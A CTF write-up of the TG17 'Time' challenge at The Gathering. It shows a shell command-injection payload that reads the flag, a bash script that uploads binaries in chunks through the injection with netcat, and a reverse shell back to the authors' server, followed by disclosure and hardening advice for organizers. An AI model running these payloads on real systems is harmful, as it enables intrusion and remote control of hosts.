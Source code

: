 ```yaml
---
layout: post
title: "Investigating the ctf infrastructure at The Gathering"
author: capitol
category: ctf
---
```

![bits](/images/time.jpg)

##### name:
Time

##### category:
pwn

##### points:
80

#### Writeup

The biggest lan party here in norway is The Gathering, and they also organize a small
ctf, tghack.

The Time challenge presented us with a prompt for our name, and then printed that name
and the current time.

The server side code did this by running a shell command, and the input wasn't 
sanitized.

We got the flag by entering $(cat flag.txt) as the name. It was TG17{tick_t0ck_arbitrary_c0de_execution}.

But then we looked around some more, and discovered that /tmp was writeable and
executable, and gcc was also installed. A peek at the files in /etc confirmed our guess
that it ran as a docker image.

Someone also entered a fork bomb into the challenge, and that confirmed that many of the
challenges ran on the same host, as the organizers hadn't set any limit or cgroup rules.

At this point we decided it was time to do some responsible disclosure to the 
organizers. As it might have been possible to MITM the network traffic to the other
challenges with an arp poison attack, as described
 [here](https://nyantec.com/en/2015/03/20/docker-networking-considered-harmful/).

That done we wrote a small program to upload our binaries to /tmp/

```bash
#!/bin/bash
# made for tghack '17
# desc: upload a file chunked through a shell with length
#       restrictions of commands. you might need to manually
#       tune the BUFLEN to stay within the limits. sh syntax
#       errors appears when you're out of bounds.
#
# todo: progress bar
#
HOST=${1}
PORT=${2}
FILE=${3}
DEST=${4:-"/tmp/$$"}

if [[ -z "$HOST" || -z "$PORT" || -z "$FILE" || -z "$DEST" ]]; then
  >&2 echo "Missing argument(s). Usage: program <host> <port> <file> [<dest>]"
  exit 2
fi

# Compress file and remove newlines to make it easy to echo
COMPRESSED="$(gzip -c $FILE | base64 | tr -d '\n')"

SIZE=${#COMPRESSED}
BUFLEN=33
INDEX=0

NETCAT="nc -q 0 $HOST $PORT"

# Upload file
while [ $INDEX -le $SIZE ]; do
  SUBSTR=${COMPRESSED:$INDEX:$BUFLEN}

  # Pipe chunk through netcat and append to destination file
  # \x60 is a backtick
  printf '\x60echo \x27%b\x27>>%b\x60' "$SUBSTR" "$DEST" | $NETCAT

  INDEX=$(( $INDEX + $BUFLEN ))
done

# Decompress and make executable
printf '\x60cat %b|base64 -d|zcat>%b.sh\x60' $DEST $DEST | $NETCAT
printf '\x60chmod +x %b.sh\x60' $DEST | $NETCAT

echo "Executable at $DEST.sh"
```

Some more exploring reveled that they hadn't blocked outgoing connections from the
docker image, so we uploaded a reverse shell and on our server we did:

```bash
socat -,raw,echo=0 tcp-listen:14243
```

and executed the shell with:
```bash
echo '$(/tmp/c <serverip> 14243)' | nc time.tghack.no 1111
```

This made it a lot easier to explore the system, unfortunately other obligations came
up, so we didn't manage to find any other vulnerabilities.

Our recommendations for hosting challenges are these:
1. Set limits on the amount of resources each challenge can consume, so that a problem
with one challenge doesn't block people from using the other challenges.
2. Lock down the file system if it's not part of the challenge to gain a shell, no
need to have any of it writeable.
3. Letting people send network traffic out might not be the best thing, no need to be
a jump host in real attacks.

We would also like to give credit to the organizers of the ctf, for building a lot
of nice challenges that did a great job of teaching those that are new to the hobby.
They were also very responsive when we reported problems to them.
